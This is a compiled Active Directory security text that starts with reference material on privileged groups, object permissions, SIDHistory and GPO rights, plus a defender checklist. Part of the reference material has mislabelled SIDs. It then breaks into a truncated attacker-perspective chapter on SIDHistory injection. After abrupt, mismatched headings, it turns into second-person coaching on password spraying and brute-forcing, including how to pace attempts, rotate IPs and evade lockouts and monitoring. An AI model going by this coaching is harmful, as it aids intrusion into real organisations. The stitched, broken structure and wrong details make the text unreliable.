Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. By default, this built-in group has no members, and it can perform backup and restore operations on domain controllers. Its membership can be modified by the following groups: default service Administrators, Domain Admins in the domain, or Enterprise Admins. It cannot modify the membership of any administrative groups. While members of this group cannot change server settings or modify the configuration of the directory, they do have the permissions needed to replace files (including operating system files) on domain controllers. Because of this, members of this group are considered service administrators.

The Backup Operators group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Certificate Service DCOM Access: Active Directory group.

Well-Known SID/RID: S-1-5-32-<domain>-574

Members of this group are allowed to connect to certification authorities in the enterprise.

The Certificate Service DCOM Access group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Cert Publishers: Active Directory group.

Well-Known SID/RID: S-1-5-<domain>-517

Members of the Cert Publishers group are authorized to publish certificates for User objects in Active Directory.

The Cert Publishers group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Distributed COM Users

Well-Known SID/RID: S-1-5-32-562

Members of the Distributed COM Users group are allowed to launch, activate, and use Distributed COM objects on the computer. Microsoft Component Object Model (COM) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. Distributed Component Object Model (DCOM) allows applications to be distributed across locations that make the most sense to you and to the application. This group appears as a SID until the domain controller is made the primary domain controller and it holds the operations master role (also known as flexible single master operations or FSMO).

The Distributed COM Users group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

DnsAdmins: Local or Active Directory group. Members of this group have admin rights to AD DNS and can run code via DLL on a Domain Controller operating as a DNS server.

Well-Known SID/RID: S-1-5-21-<domain>-1102

Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.

For information about other means to secure the DNS server service, see Securing the DNS Server Service.

This security group has not changed since Windows Server 2008.

Domain Admins: Active Directory group with full admin rights to the Active Directory domain and all computers (default), including all workstations, servers, and Domain Controllers. Gains this right through automatic membership in the Administrators group for the domain as well as all computers when they are joined to the domain.

Well-Known SID/RID: S-1-5-<domain>-512

Members of the Domain Admins security group are authorized to administer the domain. By default, the Domain Admins group is a member of the Administrators group on all computers that have joined a domain, including the domain controllers. The Domain Admins group is the default owner of any object that is created in Active Directory for the domain by any member of the group. If members of the group create other objects, such as files, the default owner is the Administrators group.

The Domain Admins group controls access to all domain controllers in a domain, and it can modify the membership of all administrative accounts in the domain. Membership can be modified by members of the service administrator groups in its domain (Administrators and Domain Admins), and by members of the Enterprise Admins group. This is considered a service administrator account because its members have full access to the domain controllers in a domain.

The Domain Admins group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Enterprise Admins: Active Directory group with full admin rights to all Active Directory domains in the AD forest and gains this right through automatic membership in the Administrators group in every domain in the forest.

Well-Known SID/RID: S-1-5-21-<root domain>-519

The Enterprise Admins group exists only in the root domain of an Active Directory forest of domains. It is a Universal group if the domain is in native mode; it is a Global group if the domain is in mixed mode. Members of this group are authorized to make forest-wide changes in Active Directory, such as adding child domains.

By default, the only member of the group is the Administrator account for the forest root domain. This group is automatically added to the Administrators group in every domain in the forest, and it provides complete access for configuring all domain controllers. Members in this group can modify the membership of all administrative groups. Membership can be modified only by the default service administrator groups in the root domain. This is considered a service administrator account.

The Enterprise Admins group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Event Log Readers

Well-Known SID/RID: S-1-5-32-573

Members of this group can read event logs from local computers. The group is created when the server is promoted to a domain controller.

The Event Log Readers group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Group Policy Creators Owners: Active Directory group with the ability to create Group Policies in the domain.

Well-Known SID/RID: S-1-5-<domain>-520

This group is authorized to create, edit, or delete Group Policy Objects in the domain. By default, the only member of the group is Administrator.

The Group Policy Creators Owners group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Hyper-V Administrators

Well-Known SID/RID: S-1-5-32-578

Members of the Hyper-V Administrators group have complete and unrestricted access to all the features in Hyper-V. Adding members to this group helps reduce the number of members required in the Administrators group, and further separates access.

System\_CAPS\_noteNote

Prior to Windows Server 2012, access to features in Hyper-V was controlled in part by membership in the Administrators group.

This security group was introduced in Windows Server 2012, and it has not changed in subsequent versions.

Pre–Windows 2000 Compatible Access

Well-Known SID/RID: S-1-5-32-554

Members of the Pre–Windows 2000 Compatible Access group have Read access for all users and groups in the domain. This group is provided for backward compatibility for computers running Windows NT 4.0 and earlier. By default, the special identity group, Everyone, is a member of this group. Add users to this group only if they are running Windows NT 4.0 or earlier.

System\_CAPS\_warningWarning

This group appears as a SID until the domain controller is made the primary domain controller and it holds the operations master role (also known as flexible single master operations or FSMO).

The Pre–Windows 2000 Compatible Access group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Print Operators

Well-Known SID/RID: S-1-5-32-550

Members of this group can manage, create, share, and delete printers that are connected to domain controllers in the domain. They can also manage Active Directory printer objects in the domain. Members of this group can locally sign in to and shut down domain controllers in the domain.

This group has no default members. Because members of this group can load and unload device drivers on all domain controllers in the domain, add users with caution. This group cannot be renamed, deleted, or moved.

The Print Operators group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008. However, in Windows Server 2008 R2, functionality was added to manage print administration. For more information, see Assigning Delegated Print Administrator and Printer Permission Settings in Windows Server 2008 R2.

Protected Users

Well-known SID/RID: S-1-5-21-<domain>-525

Members of the Protected Users group are afforded additional protection against the compromise of credentials during authentication processes.

This security group is designed as part of a strategy to effectively protect and manage credentials within the enterprise. Members of this group automatically have non-configurable protection applied to their accounts. Membership in the Protected Users group is meant to be restrictive and proactively secure by default. The only method to modify the protection for an account is to remove the account from the security group.

This domain-related, global group triggers non-configurable protection on devices and host computers running Windows Server 2012 R2 and Windows 8.1, and on domain controllers in domains with a primary domain controller running Windows Server 2012 R2. This greatly reduces the memory footprint of credentials when users sign in to computers on the network from a non-compromised computer.

Depending on the account’s domain functional level, members of the Protected Users group are further protected due to behavior changes in the authentication methods that are supported in Windows.

Members of the Protected Users group cannot authenticate by using the following Security Support Providers (SSPs): NTLM, Digest Authentication, or CredSSP. Passwords are not cached on a device running Windows 8.1, so the device fails to authenticate to a domain when the account is a member of the Protected User group.

The Kerberos protocol will not use the weaker DES or RC4 encryption types in the preauthentication process. This means that the domain must be configured to support at least the AES cipher suite.

The user’s account cannot be delegated with Kerberos constrained or unconstrained delegation. This means that former connections to other systems may fail if the user is a member of the Protected Users group.

The default Kerberos ticket-granting tickets (TGTs) lifetime setting of four hours is configurable by using Authentication Policies and Silos, which can be accessed through the Active Directory Administrative Center. This means that when four hours has passed, the user must authenticate again.

The Protected Users group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This group was introduced in Windows Server 2012 R2. For more information about how this group works, see Protected Users Security Group.

The following table specifies the properties of the Protected Users group.

Remote Desktop Users

Well-Known SID/RID: S-1-5-32-555

The Remote Desktop Users group on an RD Session Host server is used to grant users and groups permissions to remotely connect to an RD Session Host server. This group cannot be renamed, deleted, or moved. It appears as a SID until the domain controller is made the primary domain controller and it holds the operations master role (also known as flexible single master operations or FSMO).

The Remote Desktop Users group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Schema Admins

Well-Known SID/RID: S-1-5-<root domain>-518

Members of the Schema Admins group can modify the Active Directory schema. This group exists only in the root domain of an Active Directory forest of domains. It is a Universal group if the domain is in native mode; it is a Global group if the domain is in mixed mode.

The group is authorized to make schema changes in Active Directory. By default, the only member of the group is the Administrator account for the forest root domain. This group has full administrative access to the schema.

The membership of this group can be modified by any of the service administrator groups in the root domain. This is considered a service administrator account because its members can modify the schema, which governs the structure and content of the entire directory.

For more information, see What Is the Active Directory Schema?: Active Directory.

The Schema Admins group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

Server Operators

Well-Known SID/RID: S-1-5-32-549

Members in the Server Operators group can administer domain servers. This group exists only on domain controllers. By default, the group has no members. Memebers of the Server Operators group can sign in to a server interactively, create and delete network shared resources, start and stop services, back up and restore files, format the hard disk drive of the computer, and shut down the computer. This group cannot be renamed, deleted, or moved.

By default, this built-in group has no members, and it has access to server configuration options on domain controllers. Its membership is controlled by the service administrator groups, Administrators and Domain Admins, in the domain, and the Enterprise Admins group. Members in this group cannot change any administrative group memberships. This is considered a service administrator account because its members have physical access to domain controllers, they can perform maintenance tasks (such as backup and restore), and they have the ability to change binaries that are installed on the domain controllers. Note the default user rights in the following table.

The Server Operators group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

This security group has not changed since Windows Server 2008.

WinRMRemoteWMIUsers\_

Well-Known SID/RID: S-1-5-21-<domain>-1000

In Windows 8 and in Windows Server 2012, a Share tab was added to the Advanced Security Settings user interface. This tab displays the security properties of a remote file share. To view this information, you must have the following permissions and memberships, as appropriate for the version of Windows Server that the file server is running.

The WinRMRemoteWMIUsers\_ group applies to versions of the Windows Server operating system listed in the Active Directory default security groups by operating system version.

If the file share is hosted on a server that is running a supported version of the operating system:

\begin{itemize}
    \item You must be a member of the WinRMRemoteWMIUsers\_group or the BUILTIN\textbackslash{}Administrators group.
    \item You must have Read permissions to the file share.
\end{itemize}
If the file share is hosted on a server that is running a version of Windows Server that is earlier than Windows Server 2012:

\begin{itemize}
    \item You must be a member of the BUILTIN\textbackslash{}Administrators group.
    \item You must have Read permissions to the file share.
\end{itemize}
In Windows Server 2012, the Access Denied Assistance functionality adds the Authenticated Users group to the local WinRMRemoteWMIUsers\_ group. Therefore, when the Access Denied Assistance functionality is enabled, all authenticated users who have Read permissions to the file share can view the file share permissions.

The WinRMRemoteWMIUsers\_ group allows running Windows PowerShell commands remotely whereas the Remote Management Users group is generally used to allow users to manage servers by using the Server Manager console.

This security group was introduced in Windows Server 2012, and it has not changed in subsequent versions.

Active Directory Groups with Privileged Rights on Computers

Most organizations use Group Policy to add an Active Directory group to a local group on computers (typically the Administrators group). Using PowerView, we can easily discover the AD groups that have admin rights on workstations and servers (which is the typical use case).

In the following screenshot, we see that the organization has configured the following GPOs:

GPO: “Add Server Admins to Local Administrator Group”

Local Group: Administrators

AD Group: Server Admins (SID is shown in the example)

GPO: “Add Workstation Admins to Local Administrator Group”

Local Group: Administrators

AD Group: Workstation Admins (SID is shown in the example)

We can also use PowerView to identify what AD groups have admin rights on computers by OU.

Active Directory Object Permissions (ACLs)

Similar to file system permissions, Active Directory objects have permissions as well.

These permissions are called Access Control Lists (ACLs). The permissions set on objects use a cryptic format called Security Descriptor Definition Language (SDDL) which looks like this:

D:PAI(D;OICI;FA;;;BG)(A;OICI;FA;;;BA)(A;OICIIO;FA;;;CO)(A;OICI;FA;;;SY)(A;OICI;FA;;;BU)

This is translated by the GUI to provide the more user-friendly format we are used to (see screenshot below).

Every Active Directory object has permissions configured on them, either explicitly defined, or inherited from an object above them (typically an OU or the domain) and the permission can be defined to either allow or deny permissions on the object and its properties.

When performing Active Directory security assessments, we scan Active Directory for AD ACLs and identify the accounts/groups with privileged rights based on the delegation on AD objects such as the domain, OUs, security groups, etc.

Every object in Active Directory has default permissions applied to it as well as inherited and any explicit permissions. Given that by default Authenticated Users have read access to objects in AD, most of their properties and the permissions defined on the objects, AD objects, their properties and permissions are easily gathered.

One quick note about AD ACLs. There is an object in the System container called “AdminSDHolder ” which only has one purpose: to be the permissions template object for objects (and their members) with high levels of permissions in the domain.

\begin{itemize}
    \item SDProp Protected Objects (Windows Server 2008 \& Windows Server 2008 R2):
    \begin{itemize}
        \item Account Operators
        \item Administrator
        \item Administrators
        \item Backup Operators
        \item Domain Admins
        \item Domain Controllers
        \item Enterprise Admins
        \item Krbtgt
        \item Print Operators
        \item Read-only Domain Controllers
        \item Replicator
        \item Schema Admins
        \item Server Operators
    \end{itemize}
\end{itemize}
About every 60 minutes, the PDC emulator runs a process to enumerate all of these protected objects and their members and then stamps the permissions configured on the AdminSDHolder object (and sets the admin attribute to ‘1’). This ensures that privileged groups and accounts are protected from improper AD permission delegation.

It’s extremely difficult to stay on top of custom permissions on AD objects. For example, the following graphic shows permissions on an OU.

There’s a serious issue with the delegation on this OU which is highlighted below.

This issue is delegation to Domain Controllers with Full Control rights on all objects to this OU and all objects contained in it.

An attacker is most interested in permissions that provide privileged actions. These ACLs include:

\begin{itemize}
    \item Replicating Directory Changes All

Extended right needed to replicate only those changes from a given NC that are also replicated to the Global Catalog (which includes secret domain data). This constraint is only meaningful for Domain NCs.

An Extended Right that provides the ability to replicate all data for an object, including password data (I call this the Domain Controller impersonation right) which when combined with Replicating Directory Changes, provides the ability to “DCSync” the password data for AD users and computers.

Example: FIM, Riverbed, SharePoint, and other applications often have a service account granted this right on the domain root. If an attacker can guess this password (or potentially crack it by Kerberoasting), they now own the domain since they can DCSync password hashes for all AD users and computers (including Domain Admins and Domain Controllers).
    \item Replicating Directory Changes (DS-Replication-Get-Changes)

Control access right that allows the replication of all data in a given replication NC, excluding secret domain data.

This right provides the ability to pull data from Active Directory regardless of configured AD ACLs.
    \item GenericAll: GenericAll = Full Control

The right to create or delete children, delete a subtree, read and write properties, examine children and the object itself, add and remove the object from the directory, and read or write with an extended right.

It provides full rights to the object and all properties, including confidential attributes  such as LAPS local Administrator passwords, and BitLocker recovery keys. In many cases, Full Control rights aren’t required, but it’s easier to delegate and get working than determining the actual rights required.

Example: A Server tier group may be delegated Full Control on all Computer objects in an OU that has the computer objects associated with servers. Another common configuration is delegating Full Control on all Computer objects in the Workstations OU for the Desktop Support group, and delegating Full Control on all user objects in the Users OU for the Help Desk.
    \item GenericWrite: Provides write access to all properties.

The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.
    \item WriteDACL: Provides the ability to modify security on an object which can lead to Full Control of the object.

The right to modify the DACL in the object security descriptor.

Example: A service account may be granted this right to perform delegation in AD. If an attacker can guess this password (or potentially crack it by Kerberoasting), they now set their own permissions on associated objects which can lead to Full Control of an object which may involve exposure of a LAPS controlled local Administrator password.
    \item Self:  Provides the ability to perform validated writes.

The right to perform an operation that is controlled by a validated write access right.

Validated writes include the following attributes:
    \begin{itemize}
        \item Self-Membership(bf9679c0-0de6-11d0-a285-00aa003049e2 / member attribute)
        \item Validated-DNS-Host-Name

(72e39547-7b18-11d1-adef-00c04fd8d5cd / dNSHostName attribute)
        \item Validated-MS-DS-Additional-DNS-Host-Name

(80863791-dbe9-4eb8-837e-7f0ab55d9ac7 / msDS-AdditionalDnsHostName attribute)
        \item Validated-MS-DS-Behavior-Version

(d31a8757-2447-4545-8081-3bb610cacbf2 / msDS-Behavior-Version attribute)
        \item Validated-SPN

(f3a64788-5306-11d1-a9c5-0000f80367c1 / servicePrincipalName attribute)
    \end{itemize}
    \item WriteOwner:: Provides the ability to take ownership of an object. The owner of an object can gain full control rights on the object.

The right to assume ownership of the object. The user must be an object trustee. The user cannot transfer the ownership to other users.
    \item WriteProperty: Typically paired with specific attribute/property information.Example: The help desk group is delegated the ability to modify specific AD object properties like Member (to modify group membership), Display Name, Description, Phone Number, etc.
    \item CreateChild: Provides the ability to create an object of a specified type (or “All”).
    \item DeleteChild: Provides the ability to delete an object of a specified type (or “All”).
    \item Extended Right: This is an interesting one because if provides additional rights beyond the obvious.Example: All Extended Right permissions to a computer object may provide read access to the LAPS Local Administrator password attribute.
\end{itemize}
The ability to create and link GPOs in a domain should be seen as effective Domain Admin rights since it provides the ability to modify security settings, install software, configure user and computer logon (and startup/shutdown) scripts, and run commands.

\begin{itemize}
    \item \href{https://technet.microsoft.com/en-us/library/cc978262.aspx}{Manage Group Policy link} (LinkGPO): Provides the ability to link an existing Group Policy Object in Active Directory to the domain, OU, and/or site where the right is defined. By default, GPO Creator Owners has this right.
    \item Create GPOs: By default, the AD group Group Policy Creator Owners has this right. Can be delegated via the Group Policy Management Console (GPMC).
\end{itemize}
PowerView provides the ability to to search AD permissions for interesting rights.

SIDHistory

SID History is an attribute that supports migration scenarios. Every user account has an associated Security IDentifier (SID) which is used to track the security principal and the access the account has when connecting to resources. SID History enables access for another account to effectively be cloned to another. This is extremely useful to ensure users retain access when moved (migrated) from one domain to another. Since the user’s SID changes when the new account is created, the old SID needs to map to the new one. When a user in Domain A is migrated to Domain B, a new user account is created in DomainB and DomainA user’s SID is added to DomainB’s user account’s SID History attribute. This ensures that DomainB user can still access resources in DomainA.

This means that if an account has privileged accounts or groups in its SIDHistory attribute, the account receives all the rights assigned to those accounts or groups, be they assigned directly or indirectly. If an attacker gains control of this account, they have all of the associated rights. The rights provided via SIDs in SIDHistory are likely not obvious and therefore missed.

Group Policy Permissions

Group Policy Objects (GPOs) are created, configured, and linked in Active Directory. When a GPO is linked to an OU, the settings in the GPO are applied to the appropriate objects (users/computers) in that OU.

Permissions on GPOs can be configured to delegate GPO modify rights to any security principal.

If there are custom permissions configured on Group Policies linked to the domain and an attacker gains access to an account with modify access, the domain can be compromised. An attacker modifies GPO settings to run code or install malware. The impact of this level of access depends on where the GPO is linked. If the GPO is linked to the domain or Domain Controllers container, they own the domain. IF the GPO is linked to a workstations or servers OU, the impact may be less somewhat; however, the ability to run code on all workstations or servers, it may be possible to still compromise the domain.

Scanning for GPO permissions identifies which GPOs are improperly permissioned and scanning for where the GPO is linked determines the impact.

Fun fact: The creator of a Group Policy retains modify rights to the GPO. A possible result is that a Domain Admin needs to set an audit policy for the domain, but discovers that an OU admin has already created a GPO with the required settings. So, the Domain Admin links this GPO to the domain root which applies the settings to all computers in the domain. The problem is the OU admin can still modify a GPO that is now linked to the domain root providing an escalation path if this OU admin account is compromised. The following graphic shows the OU Admin “Han Solo” with GPO edit rights.

PowerView provides a quick way to scan all the permissions for all domain GPOs:

\texttt{Get-NetGPO | \%\{Get-ObjectAcl -ResolveGUIDs -Name \$\_.Name\}}

Reference: Abusing GPO Permissions

User Rights Assignment

User Rights Assignments are frequently configured in a computer GPO and defines several rights to the computer.

Domain Controllers are often configured with User Rights Assignments in the Default Domain Controllers Policy applied to the Domain Controllers container. Parsing the GPOs linked to Domain Controllers provides useful information about security principals with elevated rights to DCs and the domain.

These assignments include:

\begin{itemize}
    \item SeTrustedCredManAccessPrivilege: Access Credential Manager as a trusted caller
    \item SeNetworkLogonRight:  Access this computer from the network
    \item SeTcbPrivilege:  Act as part of the operating system
    \item SeMachineAccountPrivilege:  Add workstations to domain
    \item SeIncreaseQuotaPrivilege:  Adjust memory quotas for a process
    \item SeInteractiveLogonRight:  Allow log on locally
    \item SeRemoteInteractiveLogonRight:  Allow log on through Remote Desktop Services
    \item SeBackupPrivilege:  Back up files and directories
    \item SeChangeNotifyPrivilege:  Bypass traverse checking
    \item SeSystemtimePrivilege:  Change the system time
    \item SeTimeZonePrivilege:  Change the time zone
    \item SeCreatePagefilePrivilege:  Create a pagefile
    \item SeCreateTokenPrivilege:  Create a token object
    \item SeCreateGlobalPrivilege:  Create global objects
    \item SeCreatePermanentPrivilege:  Create permanent shared objects
    \item SeCreateSymbolicLinkPrivilege:  Create symbolic links
    \item SeDebugPrivilege:  Debug programs
    \item SeDenyNetworkLogonRight:  Deny access to this computer from the network
    \item SeDenyBatchLogonRight:  Deny log on as a batch job
    \item SeDenyServiceLogonRight:  Deny log on as a service
    \item SeDenyInteractiveLogonRight:  Deny log on locally
    \item SeDenyRemoteInteractiveLogonRight:  Deny log on through Remote Desktop Services
    \item SeEnableDelegationPrivilege:  Enable computer and user accounts to be trusted for delegation
    \item SeRemoteShutdownPrivilege:  Force shutdown from a remote system
    \item SeAuditPrivilege:  Generate security audits
    \item SeImpersonatePrivilege:  Impersonate a client after authentication
    \item SeIncreaseWorkingSetPrivilege:  Increase a process working set
    \item SeIncreaseBasePriorityPrivilege:  Increase scheduling priority
    \item SeLoadDriverPrivilege:  Load and unload device drivers
    \item SeLockMemoryPrivilege:  Lock pages in memory
    \item SeBatchLogonRight:  Log on as a batch job
    \item SeServiceLogonRight:  Log on as a service
    \item SeSecurityPrivilege:  Manage auditing and security log
    \item SeRelabelPrivilege:  Modify an object label
    \item SeSystemEnvironmentPrivilege:  Modify firmware environment values
    \item SeManageVolumePrivilege:  Perform volume maintenance tasks
    \item SeProfileSingleProcessPrivilege:  Profile single process
    \item SeSystemProfilePrivilege:  Profile system performance
    \item SeUndockPrivilege:  Remove computer from docking station
    \item SeAssignPrimaryTokenPrivilege:  Replace a process level token
    \item SeRestorePrivilege:  Restore files and directories
    \item SeShutdownPrivilege:  Shut down the system
    \item SeSyncAgentPrivilege:  Synchronize directory service data
    \item SeTakeOwnershipPrivilege:  Take ownership of files or other objects
\end{itemize}
The interesting ones in this list (especially in GPOs that apply to Domain Controllers):

\begin{itemize}
    \item Allow logon locally \& Allow logon over Remote Desktop Services: Provides logon rights.
    \item Manage auditing and security log: Provides the ability to view all events in the event logs, including security events, and clear the event log.

Fun Fact: Exchange Servers require this right, which means that if an attacker gains System rights on an Exchange server, they can clear Domain Controller security logs.
    \item Synchronize directory service data: “This policy setting determines which users and groups have authority to synchronize all directory service data, regardless of the protection for objects and properties. This privilege is required to use LDAP directory synchronization (dirsync) services. Domain controllers have this user right inherently because the synchronization process runs in the context of the System account on domain controllers.”

This means that an account with this user right on a Domain Controller may be able to run DCSync.
    \item Enable computer and user accounts to be trusted for delegation: Provides the ability to configure delegation on computers and users in the domain.

Fun Fact: This provides the ability to set Kerberos delegation on a computer or user account.
    \item Impersonate a client after authentication: This one looks like some fun could be had with it…
    \item Take ownership of files or other objects: Administrators only. “Any users with the Take ownership of files or other objects user right can take control of any object, regardless of the permissions on that object, and then make any changes that they want to make to that object. Such changes could result in exposure of data, corruption of data, or a denial-of-service condition.”
    \item Load and Unload Device Drivers: “Device drivers run as highly privileged code. A user who has the Load and unload device drivers user right could unintentionally install malware that masquerades as a device driver. Administrators should exercise care and install only drivers with verified digital signatures.”
\end{itemize}
Putting it all together

In order to effectively identify all accounts with privileged access, it’s important to ensure that all avenues are explored to effectively identify the rights. This means that defenders need to check the permission on AD objects, starting with Organizational Units (OUs) and then branching out to security groups.

Things to check:

\begin{itemize}
    \item Enumerate group membership of default groups (including sub-groups). Identify what rights are required and remove the others.
    \item Scan Active Directory (specifically OUs \& security groups) for custom delegation.
    \item Scan for accounts with SIDHistory (should only be required during an active migration from one domain to another).
    \item Review User Rights Assignments in GPOs that apply to Domain Controllers, Servers, and Workstations.
    \item Review GPOs that add AD groups to local groups and ensure these are still required and the level of rights are appropriate.
\end{itemize}
Tools for Checking Active Directory Permissions:

\begin{itemize}
    \item Bloodhound
    \item PowerView (modules used in Bloodhound)
    \item AD ACL Scanner
\end{itemize}

 
\chapter{Active Directory \texttt{SIDHistory} Abuse Attack Techniques}

\begin{abstract}
{\textit{Why \texttt{SIDHistory} Abuse Is a Favorite Among Attackers}}
Imagine you have just infiltrated a domain-maybe through spearphishing, a misconfiguration, or a vulnerable service. You have low-level credentials, but not Domain Admin. Instead of going down noisy privilege escalation routes like Kerberoasting or Pass-the-Hash (PtH), you want something stealthy. This is where \texttt{SIDHistory} abuse excels.
\end{abstract}
\section{Introduction}
\texttt{SIDHistory} was built for Active Directory mitigations, allowing users moved between domains to retain access through the use of old SIDs. For an attacker, it is a hidden privilege escalator. By adding a privileged SID (such as Domain Admins) to a low-level account's \texttt{SIDHistory}, you instantly inherit all the rights of that SID-without touching group membership. No group change logs, no membership alerts, no obvious forensic trails.

Detecting this abuse is difficult because you are not adding yourself to a privileged group; you are just making it look like your account has always had those rights. The only trace is a change to the \texttt{SIDHistory} attribute, something many organizations do not audit. Once injected, the SID grants access to file servers, admin shares, GPOs, and even domain controllers-all under the guise of a normal user account.

\section{1. Why Attackers Use \texttt{SIDHistory} Abuse}
An attacker with a compromised low-privilege account can use \texttt{SIDHistory} injection to gain high-value privileges without noisy exploitation. The beauty of this technique is that it looks legitimate to Active Directory (AD). It does not require replication rights or domain controller compromise-just permission to write to one attribute on one object. After that, the account can request service tickets, access domain controllers, and modify ACLs while appearing completely normal.

\section{2. Prerequisites for \texttt{SIDHistory} Injection}
Before using this attack, an attacker needs the right target, permissions, and environment.
Identify a Vulnerable Account

 Look for a low- or mid-tier user account that isn’t already privileged, has recent logon activity, and isn’t heavily monitored (e.g., service accounts).
\begin{itemize}
    \item \textbf{Check Write Permissions on SIDHistory}

 The attacker must have \verb|WriteProperty| permission on the SIDHistory attribute for the target account.
    \item \textbf{Gather the Target SID}

 The most common are:
    \begin{itemize}
        \item Domain Admins (…-512)
        \item Enterprise Admins (…-519)
        \item Any group the attacker wants to impersonate
    \end{itemize}


\textbf{Password Spraying Attacks}

\textit{ABC}

Section 1: Attacker’s View

\section{\textbf{Understanding Golden Ticket Attacks}}

\begin{table}
\justifying

\begin{tabular}{| l | l |}
\hline
\textbf{What It Is in Shortform:} & \textbf{Tools Used:} \\
\hline
\textit{Golden Ticket attacks use a forged Kerberos Ticket Granting Ticket (TGT) to gain unrestricted access or resources within an Active Directory domain.} &  \\
\hline

\end{tabular}

\end{table}

\subsection{\textbf{Password Spraying}}

\subsubsection{\textbf{What It Is}}

\textbf{Short-form: }\textit{Brute-forcing accounts using }\textit{\textbf{one password across many users}}\textit{ to avoid lockouts.}

If you’re going to understand password spraying, drop the Hollywood idea of brute-force hacking. This isn’t about hammering one account with thousands of guesses until it breaks. That’s noisy, detectable, and usually ineffective. Password spraying flips that script. Instead of one account and many passwords, you try one password across many accounts - and you do it slowly, strategically. That’s how attackers stay under that radar. That’s why and how they ultimately win.

Start by gathering usernames. In most corporate environments, usernames follow patterns - first initial plus last name, first name dot last name, or just the full email address. These conventions are your entry point. You can scrape names from LinkedIn, company press releases, breach dumps, or even public Git commits. If you can figure out the format and collect a few dozen plausible names, you’ve got a working list. Don’t worry if every name isn’t valid. A small percentage of hits is all you need.

Next, you focus on the password. This is where you need to think like an employee, not an attacker. Most people don’t pick strong passwords; they pick ones that barely meet the minimum policy. That means capital letters, lowercase letters, a number, and maybe a special character. They reuse the same format year after year. Think `Winter2025!`, `Welcome123`, or `CompanyName@2025`. Your job is to build a shortlist of these probable passwords. Ten good guesses are better than a thousand random ones. Quality beats quantity in spraying.

Now here’s the key: to avoid triggering lockout policies, you spray one password across all usernames - just one. Then you stop. You wait. Maybe it’s 30 minutes, maybe it’s several hours. Then you try the next password. Most security systems are configured to lock accounts after a few failed attempts - but they don’t correlate failures across many accounts. That’s the blind spot you’re exploiting. You stretch the attack across time and across accounts. It’s deliberate. It’s methodical. And if done right, it’s invisible.

You need tools that let you control timing, delay intervals, and error handling. For Windows environments, \textbf{CrackMapExec} is a staple - it can spray passwords across Active Directory domains without tripping alerts. For web login portalsw, you might use the \textbf{Burp Suite} with custom scripts, or tools like \textbf{Medusa} and \textbf{thc-Hydra.} Always make sure your tools respect timing limits and don’t flood the target. Your goal isn’t to crash a system. It’s to slip through it.

When a password hits, and you get yourself a valid set of credentials, that’s your toehold (e.g., your foothold). With just one working login, you can potentially access email, internal portals, or even VPN services. From there, it’s a short hop to lateral movement. If the target has no MFA, you’re in with no further resistance. If MFA is enabled, you’ll need to pivot to other techniques - phishing proxies, prompt bombing, or intercepting OTPs. But for now, your mission is simple: get that first crack in the wall.

Don’t assume defenders are watching. Most environments collect logs but don’t analyze them. Security teams are overwhelmed with noise. SIEM alerts are ignored unless something explodes. Your spraying activity, if done carefully, becomes part of that background noise - just another blip amidst the chaos. That’s the paradox: more alerts mean less attention to each one. So you don’t need to be silent - you just need to be quiet enough to blend in.

Understand this: password spraying isn’t glamorous. It’s not about clever code or elite exploits. It’s about human laziness and predictable behavior. It’s about exploiting policy loopholes and user habits. Most companies don’t train their users very well, and most users will always choose convenience over security. That’s what you’re counting on. And unless defenders drastically change how they think, spraying will keep working. Because (\textit{many}) people don’t change.

\textbf{Brute-Forcing}

Brute-forcing is raw, unrefined force. It’s not elegant, and it’s not subtle - but it works if the conditions are right. Think of it like kicking down a door instead of picking the lock. Sometimes that’s exactly what you need. But understand this: brute-forcing only works if the environment is weak, exposed, or poorly defended. So before you throw every password in the dictionary at a login form, make sure it’s worth the noise.

The core idea is simple: guess every possible password until something hits. That’s it. No finesse. Just firepower. But, in the real-world, you don’t get to brute-force like in movies. You have rate limits, lockout policies, IP bans, bot detection, and time constraints, and other security barriers through which you need to penetrate that can sometimes span hours, days, months, or years! This also means you need to know \textit{\textbf{when}} to use brute-force, \textit{\textbf{how}} to shape it, and \textit{\textbf{where}} it has the highest chance of success. If you’re doing it blindly, you’re wasting your time - and probably getting blocked in under a minute.

Let’s break it down. Brute-forcing comes in two main forms: \textbf{online} and \textbf{offline}.

Online brute-forcing means hitting a live authentication endpoint - web logins, SSH servers, FTP, APIs - anything you can send, or pass credentials to. But online targets are noisy. They monitor traffic. They track login attempts. Every request leaves a track and if you’re sloppy, you  light up their dashboards like a Christmas tree (Xmas attack hint, hint). You’ve got to slow it down, route your traffic, rotate IPs, spoof headers, and space out your requests. Otherwise, you’re toast before you even get a valid login.

Offline brute-forcing is what you do when you’ve already stolen hashes - maybe from a database dump, a memory scrape, or a compromised system. That’s where you can go all out. No rate limits, no lockouts, no prying eyes. Just you and the hash, and all the time in the world. That’s where brute-force shines. But we will hit that in the account cracking section. Right now, let’s stay on the online side.

